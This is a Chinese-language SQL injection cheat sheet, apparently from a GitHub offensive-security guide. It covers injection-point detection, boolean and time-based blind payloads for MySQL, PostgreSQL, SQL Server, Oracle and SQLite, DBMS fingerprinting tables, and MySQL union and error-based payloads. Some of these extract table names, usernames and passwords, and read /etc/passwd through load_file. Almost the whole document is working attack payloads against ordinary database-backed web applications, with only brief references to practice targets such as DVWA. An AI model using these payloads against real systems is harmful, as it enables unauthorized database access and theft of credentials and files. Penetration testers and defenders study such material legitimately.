 # SQL注入漏洞

## 1.注入点检测

（1）报错信息

特殊字符：

```bash
'
%27
"
%22
#
%23
;
%3B
)
||
*
--
/* */
&apos;
```

SQL语句：

```bash
'SELECT  //不成对的引号
1' OR '1' = '2  //逻辑错误
'1' = 1 --  //类型错误
'1' AND ASCII('a') = '97 --  //函数错误
'1' OR ('x'='x'  //操作符错误
```
(2)Boolean盲注

盲注检测：

|描述|查询语句|
|----|----|
|逻辑运算|page.php?id=1 or 1=1 -- 返回为true<br>page.php?id=1' or 1=1 -- 返回为true<br>page.php?id=1" or 1=1 -- 返回为true<br>page.php?id=1 and 1=2 -- 返回为false|
|数学运算|page.php?id=1/1 -- 返回为true<br>page.php?id=1/0 -- 返回为false<br>page.php?id=1/abs(1) -- 返回为true<br>page.php?id=1/abf(1) -- 返回为false|

逻辑运算字典：

[sql_logic](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%B8%89%E7%AB%A0/payloads/sqli-logic.txt)

(3)时间盲注

MySQL：

```sql
1' + sleep(5)
1' and sleep(5)
1' && sleep(5)
1' | sleep(5)
```

PostgreSQL:

```sql
1' and pg_sleep(5)
1' || pg_sleep(5)
```

SQL Server:

```sql
1' WAITFOR DELAY '0:0:5'
1' AND (SELECT 1 FROM (SELECT count(*),CONCAT((SELECT (SELECT SLEEP(5)) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=CHAR(109,97,115,116,101,114)),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a)--
```

Oracle:

```sql
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',5)
1' AND DBMS_LOCK.SLEEP(5)
```

SQLite:

```sql
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```

## 2.DBMS识别

MySQL识别：
|描述|查询语句|
|----|----|
|睡眠|id=1'-SLEEP(1)=0 LIMIT 1 --|
|BENCHMARK|id=1'-BENCHMARK(5000000, ENCODE('Slow Down','by 5 seconds'))=0 LIMIT 1 --|
|字符串拼接|id=' 'mysql' –<br>'my' 'sql'<br>CONCAT('my','sql')|
|函数|connection_id() --<br>row_count() --<br>POW(1,1) --|
|错误信息|id='|
|默认变量|@@version_compile_os<br>@@version<br>@@basedir<br>@@datadir|
|比较函数|conv('a',16,2)=conv('a',16,2)<br>connection_id()=connection_id()<br>crc32('MySQL')=crc32('MySQL')|

Oracle识别：
|描述|查询语句|
|----|----|
|字符串拼接|id='\|\|'oracle' --|
|函数|BITAND(1,1) –|
|默认表|id='UNION SELECT 1 FROM v$version --|
|错误信息|id='|
|睡眠|dbms_pipe.receive_message(('a'),10)|
|默认变量|SELECT banner FROM v$version<br>SELECT version FROM v$instance|
|比较函数|ROWNUM=ROWNUM<br>RAWTOHEX('AB')=RAWTOHEX('AB')|

SQL Server识别：
|描述|查询语句|
|----|----|
|睡眠|id=';WAITFOR DELAY '00:00:10'; --|
|字符串拼接|id='mssql'+'mssql' --|
|函数|@@rowcount --<br>SQUARE(1) --<br>@@pack_received --|
|默认变量|id=sql'; SELECT @@SERVERNAME --|
|错误信息|id='<br>id=@@SERVERNAME<br>id=0/@@SERVERNAME|
|比较函数|BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)<br>@@CONNECTIONS>0<br>@@CONNECTIONS=@@CONNECTIONS|

PostgreSQL识别：
|描述|查询语句|
|----|----|
|睡眠|SELECT pg_sleep(10)|
|字符串拼接|'foo'\|\|'bar'|
|默认变量|SELECT version()|
|错误信息|1 = (select case when (条件语句) then 1/(select 0) else null end)|
|比较函数|pg_client_encoding()=pg_client_encoding()<br>get_current_ts_config()=get_current_ts_config()<br>quote_literal(42.5)=quote_literal(42.5)<br>current_database()=current_database()|

这里放置一个来自[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification)的表：
```sql
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```

## 3.注入类型

（1）MySQL注入

联合注入：
```sql
select user,password from users where user_id=1 union select 1,2;
select * from users where user_id = 1 union select * from users where user_id = 2 ;
字符型注入dvwa
1' or '1234'=1234
1' or 'abcd' = 'abcd'
1' or 1=1 order by 1 //猜测字段
select * from users order by password ;
1' or 1=1 order by 2 #
1' or 1=1 order by 3 #
1' union select 1,database() #
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() //获取数据库中的表
select group_concat(user) from users where user_id=1 or user_id=2;
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' //获取表字段名
1' or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users
{
id=-1 union select 1,2,3,database(),5,6,7,8
(select table_name from information_schema.tables where table_schema='dvwa' limit 1,1),5,6,7,8
(select column_name from information_schema.columns where table_schema='dvwa'  and table_name='users' limit 4,1)
(select password from dvwa.users limit 0,1),(select user from dvwa.users limit 0,1)
}
```

报错注入：
```sql
floor函数
1' and (select 1 from (select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x)a) --+
select count(*) from information_schema.tables group by concat(version(),floor(rand(0)*2))
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)  //爆数据库
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) //爆表
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,column_name,0x7e) FROM information_schema.columns where table_name=表名 LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)  //爆字段
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x23,user_id,0x3a,password,0x23) FROM user limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)  //爆内容

UPDATEXML函数
1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
(0x7e,(select table_name from information_schema.tables where table_schema='dvwa' limit 1,1),0x7e)
' and (extractvalue(1,concat(0x7e,(select user()),0x7e))) --+

几何函数报错
1' and geometrycollection((select * from(select * from(select user())a)b));
1' and multipoint((select * from(select * from(select user())a)b));
1' and polygon((select * from(select * from(select user())a)b));
1' and multipolygon((select * from(select * from(select user())a)b));
1' and linestring((select * from(select * from(select user())a)b));
1' and multilinestring((select * from(select * from(select user())a)b));

exp
1' and exp(~(select * from(select user())a));
select ~0 //将0取反，函数成功执行后返回0的缘故，我们将成功执行的函数取反就会得到最大的无符号BIGINT值。
MySql5.5.5版本后整形溢出才会报错
得到表名：
select exp(~(select*from(select table_name from information_schema.tables where table_schema=database() limit 0,1)x));
得到列名：
select exp(~(select*from(select column_name from information_schema.columns where table_name='users' limit 0,1)x));
检索数据：
select exp(~ (select*from(select concat_ws(':',id, username, password) from users limit 0,1)x));
insert into users (id, username, password) values (2, '' or !(select*from(select user())x)-~0 or '', 'Eyre');
select exp(~(select*from(select load_file('/etc/passwd'))a));读取本地文件
insert into users (id, username, password) values (2, '' or !(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x)-~0 or '', 'Eyre');

update users set password='Peter' or !(select*from(select user())x)-~0 or '' where id=4;

delete from users where id='1' or !(select*from(select user())x)-~0 or '';
```
